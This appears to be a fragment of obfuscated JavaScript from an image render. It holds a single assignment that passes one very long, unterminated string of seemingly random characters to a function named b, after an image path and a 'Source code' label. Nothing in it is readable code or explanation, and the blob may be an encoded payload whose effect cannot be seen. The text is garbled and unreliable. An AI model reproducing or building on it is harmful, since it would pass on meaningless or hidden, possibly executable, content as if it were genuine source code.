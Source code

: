 r=b(e,"n7_&!a(%cR^yboHI7^y(R7(b!%!^Ioocy&cb!R&c7!IRc7^_c0aH&_bcI^yI^b&!aI&b7!I!b#RRcaa7_yb_I!b7^%%(MR77UHHRb&c&%P!RH7I_^^b(^R%ba%&_sybRyIcH((a!_ZPRH%bPRy%(a7_bF%H_yoRc%R!H_RA!ooy(R&(a!a_(Q7H%y%R_(o!(IEHHbRR&c=aR!a7aI(ogy7y_(%!_7oI(^a(^c%(!!<:Iy7o7^^&_aa&oWaRHc7%^c!ac_cTRH^b!R__baa&7yobcy(aoa(a&_7T&H7yaa!%^aR&1xyH(_&7aHyy%_IicH&yHRR%!!I7^!!HwbpR(%7!b_ao%bby&co(Ha7_!IIo^y&(Rac&o7_obb!^Sco%%!&7HIRo_%bc^((_o7&Hyo%RRo(RacbaRH!bo^RRHaI&^7aHH^!^7%ba(7(E&oby&c_%Ha%_R?Roob!%!%M!(_7IoH7cIRo%ca7_H_aH!yIR^%&!H7Rp^bHyyR((&!o7oI&^!%!!I&_D%H7b_Rb%_aa_R*^H7yoRb%!a7(^!a7IPaoayicy(!SI7^I_bo^!%ba0!:3^HHbIyHca(m&y7!yIb^^_%oa!_bDKI<y^RHaH!R&&DaH%b(%a%o!a&_7cHcb&RH%%!b_^I%oayIRy%!!(_(I^H_oSRc%&!H_%oHo^ybc_7b&c_(Y_bR^Ic%%&&a%_&7_cH&c^(^aJ_.Iyo(^I(ya!!!+Hb%bH^c%yaR&_7^I^ot^yc(oaRo%RaH&_^ccyaH&R7!HoRH^acla%.R4_Hbb%^%%oac&&?bb&y7Rc(yaa!&-yH(b7R^!aa9_cS&o^y_c(%(!X_!y7yIyyc&%7!7__IbooHaR&(H!R__bbo^y(%o(&&y_%HR_(Haob^R&!7o^ab(yGc^((&HkcIa%o^y%c(#cb!%HH%^^7%RaH&^#_H#yc^a_o!R&!7&H_c_^&cRaR&!/IHcRHco%_!%7!h7H7y_Rc%ya&!y RH!yIRc%&&H_II&H)yycc%_!_7cbRRR%!a7_H#oHcb!RH%(ap_Hr(H7yIR!%h!o(Ra:7II^oa^H(a(7!_7yHbba^_&!&%&I<%I!o_^^ca(1^Hcya&bb^Hc_ao&c77b!b^Rba&ay_&7*>bb(^7%baa77I^H_y&cI%%6?7&y(RRR_Rb%G!X_7Z_ob^^!!(o!RoaHCbH%a(H(y&R7yIRbo(bR!(o!c_&IHoRy!cI^^!a_^Iyo(y7c^&y_%C&y!y7a^ao!aKo7^U7oh^yc(aI7c7aH&b(Roc!a%7!LHH%bI^ac!ay&(77!I_I6&HIac&bCHHRb!Roac_(6077R_RaRo%7a_a^fcH&yHR%a(RHa%z&oay(Ra7o!y7(+Oo_y!R&(oIa_NHboc^_&b!%7aobbybc^^cH(X&q7b^ab7RI%Ia!&a7(IfyHRbc_(7H^7cS&bH^Rc!ao_cC(Hbyb^c(__bX(H!HVyH%b%(ab_aGIHHba^#%yb^^^%b!bb_^R%ca&_Hj%y7yRR^(_!H7b1acoR3Rc(<!o&7.&oHyRR_(I!a_!1}oR^ycyaI!%_yIoocy&cb&(&!5Io_b_RH%baH!7_aI%o_^oc(&__y77HbyoR%%!a%&y_<I7bb^%cF&_&_7&Hbb!%R(Haa_I7uI!b(^7%baa77IbH(ycR^%RtfHbjyHab ^a%(a7_bEab7^^RB%a&y_RIIoo^yRa%I!y_(u7!7_HIHy^y_c^!!7bIcH!Hq^^Re(:&cy7R&(%!_7oaH!__FHHba^_c_IaqH^yc((7&^UyI_bo^!c__!I!bIHoy%^c&^!H_y77H9bcRp%Ha%_!:bocyIRR%^!(_^Wy^,y R%%; o_bIboy^IRo%%&b_cI(RyR(R!((!%_7yoo(^acc(c8!_&I^oyy&%Iab!(_(Ibo%y_cy!o7%IIb%o(^Ic^(a!Z7yo(!iHbc%(c&o7cI&!77oI(bc^c%bIjoy^(c7ab&aH%H(b!R!%b!H_7U%R(RR^7(Re_7&bRH%b%Ro%ca&_bIbo7yccy%a(b_y?(H7y^Ra(5a77aw_oo^^R!(!&^HyyyR(%^a__ypbH(bWR(%_!y_ReRHgyRR&yPRa((!77bIaRIRo%c&7&I7RI!b^^!ca(o&y7(I7b^%(%oa%_^dcH7RyRI%%!^_(*HHyo!^7%ba%&dIcbaRIR((y_Ir(oHHaR&R;(o&%_b7&H_yoRc%7__7HI!oTR(R&(7!!7yJ_oay%^^(o!c_&Ib^%y_c^(a&b7!Hcoc^_c(7&!^IbH%o7^&ca(!HyHHI(yHy&c((y&b7%I_by%o%oaH&%QIbIyy^Rc.ay!777Hbb%^Xaba!_!IIoR%{c_(%a%_7LyI&b7Rb%%a/C_3_H&ybR!!a!R7%I&oc^bc(%77!_%m_oob^Ro(H!R_!_Ho^yaRq%7!b_7Ibo%H7co(R!&7HIRoc.yc^(a!S!^I(o_^bc%H7&o7cI&bH^Rc!aI&^RoIubb^(c7ab&%7_HoH7^&%HaR&!6IHybabZ%ya(&74bH%b_^a%c(a^!VRHayIRo%aa,_y7cIHybRR%_%b_cL&oHyIHc(I!o_aEboyy%R7(o!%__!aocy&cH(^!!7II^oaH7cy(c!77HI%o&^oR^%c&H7yI!Ia^^ca(3!o&&I7bI^%y(ao&c7&1HH7^!c_a^&c7Nw%b(y&Rca%&(:oIbb&RH%R%!&^r^HRbGRI%(c7_b7RIayoRo%&c__R#!oIo^Ra%8a8_(+(oboRR_%I^I_&0!oRHccI(^!a!OIIo(y%cb(o!__!Ico&yHcR(y&I7^IaoQ^yRc%_&b7II_oC^cc&aH!y7^HIo&^ay&ay&(77IHoH^_c%ac&yNHHRb!^&c_aa&cLym(b7Ro%%a_&_,cHIyHRH%!!I_^za74yy^&%7a%_%1_ooycRR(Haa_!N7o^y%R8(y!c_7O&o%yoco%!!&7HI^o!y(c^%7!L_(I(oa&6c%(^&o&_I&bI^Rc!(b&^7oIWo&^(c7ab&o((HooX^&%HaR&a/IISba^pb&a(&7WbHRb_Ro%ca&%(1RH!yIRH%aaO_yv(_RybR%%_aa_ct&oHyRob(I!^_aP&oyy(R7(bcI__Ioocy^cH(R!!7I!_oay>cy(%!77bI%o_Hzcc(b&H_7I!bI^^ca(c&y_uI7bb^%c_ao&c__HHo_^!c7a^&%7/Hyob^7%ba%&y.oHcb&RH%Ia!_Ig^H%bsRy%(a7!_<%H_yoRc%&!H_R8cH^y^Ra%/7__(m_obbRI^(o!c_&_&oRy!cIc^(R_.Iyo(y7cb(I!__I7Po&^HcRcb&I7^IaH_yHc((7&b&bI_bo^c^&(R&R7!HIb^^aRIay!c__Hbb%^_c7ac&&hHHRH7RI%^aa&7 yH(b7^HR&a__oecHIyHRR%!(7R_vaH2yyoh%7!b_%_cHHycR&(Hc!_!DSo^y(RQ(I^__7Ibo%Hoco(R!&__aao!^Ic^^7!57bI(o7yyc%(_&o7RI&bH^RR(b%&^7aIqob^(c7ab!RRRHobR^&y!aR&!iIf^bI^T%ba(&_PbIbb_^IR&a&&7JR7ayIR^%aaU&!>(H_ybR^%_!o_cj&I(yRR!(I!^_aP_oyy(Rc(b!%__IHocyacHcRa17IIyoayUcy%I!77b%(o_yGcc(&&H_eI!IIHbca(&&y_bI7kc^%y_(c&c7(HH5!^!^ba^(a7&HybR^7cIa%!mMo7co(RH%ba!(cF^IabWbycoa7_Ih%_7yo^(%&%H&y2!H_y^o_%Mc%_(&7HIy%Ra(o%&_&lyoRy!o_(^!(_dIHo(y&cbc%Ro7oI^o&^IcR(H&I7^p&ok^Ic((7&b7^I_Ioy^c&(_&R_^HIbb^ayD(%&(7aHboT^_y!ac(&7_HRbcRIRyaaao8yH(o^Rb%Ra_&7GcHayHyRc&!I_o#aH_yyRy%7!b^(Y_H_ycR&(H!^_!_IHHyaRa(yab_7j%o%y_Ry(c!(7HIHo!y4c^caa77yIRo7^Hc%cy&o_^J&bH^Hc!%%&^7aIDby^oc7aI&%7%HobR^&RH(%&!7_H^b%^-c-a(&77dH%b%Ro%ca&_IFR7!o&R^%^a#!79(I&ybR%cI!o_yv&H&yRRa(I(^&7O/oHy(R&(b%m__ IHcy&R&(R(c7II^oay9Ry((!!7bIbo_^Hccc&a,7RI%bI^yca(^&y7(I%bb^bc_ao&c7(HHIRy(%IaI&a_(Hyoa^7^b(R&_7_HcbbRHR&a!aIabHabaRyR%a7aR{%H_bcRc%(!H_H}!H7y^ya%^!y_^27oIy%R%(o!c_IIHoIy!cI(^!(_;_yHIy7R_(%ac7o/%o&^HRy(!!&7^Iyo8^oc(c7!R7%I%bo^bc&R(&R7!(Hb^^bcYay&(7&HbI%y!%oaI&&_!HRH_RIc5^R&q7&H(bcRb%ca__HhcH&g(RR%!!I_^{aHQyy^(o7!b_Hr_,%ycRy(H!R&7IIoIyaR%(y!%_77bo^y_R_(c!%7H&7o!^IR%(a!%7yI(o7^Hc%R_!_7cI^bHyIc!c_&^7y!!by^Hc7(9&%7&HobR^&%H^7&!1IH^ba^g%ya(!7(bH%bRRo^_a&&(8RH!oyR^%^aC&_T(H_yby%%o!o_oJ&H_yRbb(I!^_(<kH_y(R7(b!R___oIay&Ra(Ra^7I_(oay(oI((!R7bIbo_^Hcc(!&H7R&bbI^^ca(-&y7(I7obm%c_(!&c&oHHo7^!%IaH&a7aHybo^7%oa%a_7yHcbcRH%oa!(%>^Hao(Ry%oa7_bs%H!yobccb!H&ML!Iay^o&%-a7%^j7H!y%R&(o!R_&IIoRy!o%(^!a_UIyo(y7cb%%^_7oIIo&occR(b&I7^OboiyBc((c&b7cI_HoyRc&(&&R7cHI}_^acU%7&(7cHbb%^_%Iac(&7(HRbyRIRUaa(a:yHb7aRb%Ia_&^6cH!yHR^%!!I%_PaHVyyR(%7!b_%7_&oycR^(H%&_!P%o^yaRb(y!y_72&o%y&cocca%7HIHo!y&c^Ro!B7yI^o7y&c%(_&o7^I&IHyEc!((&^_yI,Hc^(c%yW&%7^HobH^&%IaR&axIH^+o^8%ya(&7#bH%b_^ooca&&aWRYHyI^_%aah&R.(H(ybRH%_!H_c_&H^yRRR(I!H_a&coyy(R!(b!H__IoocyacHRR!o7I+7oab(cyR!!7__!yo_yacc(b&H7^I!ow^^ca^c&y7(I7bb^%c_ao!c%&HHoz^!^Ra^&o7tHybH^7c7a%&RqoHRb&yHcfa!&!F^HRbTo&%(a7_H2%HRyoRc%&ax_R&!H^y^Rb%<(7_(7cobyoH((oa,_&i(oRyacI(y!a_k!&o(y7cb(%!_7oIcH&PHcR(y&I!!Iaoc^yc(%)&b7bI_o!^cc!aHaR7cHIbI^ac!ay(H77Hbb^^_c!ac&&qHHyb!bIRFaa&%.yIbb7yb%%acc7{cHyyHRb%!av_^p(H8yyoH%7!b_%:_ooycR&%H^R_!:(o^oIR>%&!(_7z_o%y%co(I!&7IIRI!byc^(^!?7II(BR^bc%(I&o7II&bH^Rc(aI(^7%Ixo_^(R%abaH7_I&7b^&c(aR!_4IHyba^7%ya(%R2bH%b_Ro%ca&_H7R!!yI^7%a%^_y.HH7ybRb%_a__c+^oHy^R!cIa%_a6aoyy^R7^!!%__sIocy^cH(R!!_7I^9ay_cy(o!7&_I%?!^ocHy%&H_7I!o7^^c((:&b7(I77!^%c_ao&c7&HHbRy!oIa^&b7u7ab(^R%ba%!^6oHob&^a%Raa_I_^Hcb4^0%(aa_b&IH_yo^&%&aa_Rd!oIybRa^L!o_(